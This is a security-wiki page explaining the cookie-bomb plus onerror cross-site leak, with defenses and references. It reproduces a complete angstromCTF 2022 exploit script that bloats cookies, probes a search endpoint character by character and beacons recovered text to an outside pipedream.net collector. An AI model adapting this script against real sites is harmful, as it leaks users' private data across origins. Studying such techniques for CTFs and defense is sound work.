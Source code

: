 # Cookie Bomb + Onerror XS Leak

This technique combines:
- Cookie bombing: stuffing the victim’s browser with many/large cookies for the target origin so that subsequent requests hit server/request limits (request header size, URL size in redirects, etc.).
- Error-event oracle: probing a cross-origin endpoint with a <script> (or other subresource) and distinguishing states with onload vs onerror.

High level idea
- Find a target endpoint whose behavior differs for two states you want to test (e.g., search “hit” vs “miss”).
- Ensure the “hit” path will trigger a heavy redirect chain or long URL while the “miss” path stays short. Inflate request headers using many cookies so that only the “hit” path causes the server to fail with an HTTP error (e.g., 431/414/400). The error flips the onerror event and becomes an oracle for XS-Search.

When does this work
- You can cause the victim browser to send cookies to the target (e.g., cookies are SameSite=None or you can set them in a first-party context via a popup window.open).
- There is an app feature you can abuse to set arbitrary cookies (e.g., “save preference” endpoints that turn controlled input names/values into Set-Cookie) or to make post-auth redirects that incorporate attacker-controlled data into the URL.
- The server reacts differently on the two states and, with inflated headers/URL, one state crosses a limit and returns an error response that triggers onerror.

Note on server errors used as the oracle
- 431 Request Header Fields Too Large is commonly returned when cookies inflate request headers; 414 URI Too Long or a server-specific 400 may be returned for long request targets. Any of these result in a failed subresource load and fire onerror. [MDN documents 431 and typical causes like excessive cookies.]()

Practical example (angstromCTF 2022)
The following script (from a public writeup) abuses a feature that lets the attacker insert arbitrary cookies, then loads a cross-origin search endpoint as a script. When the query is correct, the server performs a redirect that, together with the cookie bloat, exceeds server limits and returns an error status, so script.onerror fires; otherwise nothing happens.

```html
<>'";
<form action="https://sustenance.web.actf.co/s" method="POST">
  <input id="f" /><input name="search" value="a" />
</form>
<script>
  const $ = document.querySelector.bind(document)
  const sleep = (ms) => new Promise((r) => setTimeout(r, ms))
  let i = 0
  const stuff = async (len = 3500) => {
    let name = Math.random()
    $("form").target = name
    let w = window.open("", name)
    $("#f").value = "_".repeat(len)
    $("#f").name = i++
    $("form").submit()
    await sleep(100)
  }
  const isError = async (url) => {
    return new Promise((r) => {
      let script = document.createElement("script")
      script.src = url
      script.onload = () => r(false)
      script.onerror = () => r(true)
      document.head.appendChild(script)
    })
  }
  const search = (query) => {
    return isError(
      "https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query)
    )
  }
  const alphabet =
    "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ"
  const url = "//en4u1nbmyeahu.x.pipedream.net/"
  let known = "actf{"
  window.onload = async () => {
    navigator.sendBeacon(url + "?load")
    await Promise.all([stuff(), stuff(), stuff(), stuff()])
    await stuff(1600)
    navigator.sendBeacon(url + "?go")
    while (true) {
      for (let c of alphabet) {
        let query = known + c
        if (await search(query)) {
          navigator.sendBeacon(url, query)
          known += c
          break
        }
      }
    }
  }
</script>
```

Why the popup (window.open)?
- Modern browsers increasingly block third-party cookies. Opening a top-level window to the target makes cookies first‑party so Set-Cookie responses from the target will stick, enabling the cookie-bomb step even with third‑party cookie restrictions.

Generic probing helper
If you already have a way to set many cookies on the target origin (first-party), you can reuse this minimal oracle against any endpoint whose success/failure leads to different network outcomes (status/MIME/redirect):

```js
function probeError(url) {
  return new Promise((resolve) => {
    const s = document.createElement('script');
    s.src = url;
    s.onload = () => resolve(false);  // loaded successfully
    s.onerror = () => resolve(true);  // failed (e.g., 4xx/5xx, wrong MIME, blocked)
    document.head.appendChild(s);
  });
}
```

Tips to build the oracle
- Force the “positive” state to be heavier: chain an extra redirect only when the predicate is true, or make the redirect URL reflect unbounded user input so it grows with the guessed prefix.
- Inflate headers: repeat cookie bombing until a consistent error is observed on the “heavy” path. Servers commonly cap header size and will fail sooner when many cookies are present.
- Stabilize: fire multiple parallel cookie set operations and probe repeatedly to average out timing and caching noise.

Related XS-Search tricks
- URL length based oracles (no cookies needed) can be combined or used instead when you can force a very long request target:

[[url-max-length-client-side.md]]

Defenses and hardening
- Make success/failure responses indistinguishable:
  - Avoid conditional redirects or large differences in response size between states. Return the same status, same content type, and similar body length regardless of state.
- Block cross-site subresource probes:
  - SameSite cookies: set sensitive cookies to SameSite=Lax or Strict so subresource requests like <script src> don’t carry them; prefer Strict for auth tokens when possible.
  - Fetch Metadata: enforce a Resource Isolation Policy to reject cross-site subresource loads (e.g., if Sec-Fetch-Site != same-origin/same-site).
  - Cross-Origin-Resource-Policy (CORP): set CORP: same-origin (or at least same-site) for endpoints not meant to be embedded as cross-origin subresources.
  - X-Content-Type-Options: nosniff and correct Content-Type on JSON/HTML endpoints to avoid load-as-script quirks.
- Reduce header/URL amplification:
  - Cap the number/size of cookies set; sanitize features that turn arbitrary form fields into Set-Cookie.
  - Normalize or truncate reflected data in redirects; avoid embedding attacker-controlled long strings in Location URLs.
  - Keep server limits consistent and fail uniformly (avoid special error pages only for one branch).

Notes
- This class of attacks is discussed broadly as “Error Events” XS-Leaks. The cookie-bomb step is just a convenient way to push only one branch over server limits, producing a reliable boolean oracle.

## References
- XS-Leaks: Error Events (onerror/onload as an oracle): https://xsleaks.dev/docs/attacks/error-events/
- MDN: 431 Request Header Fields Too Large (common with many cookies): https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/431

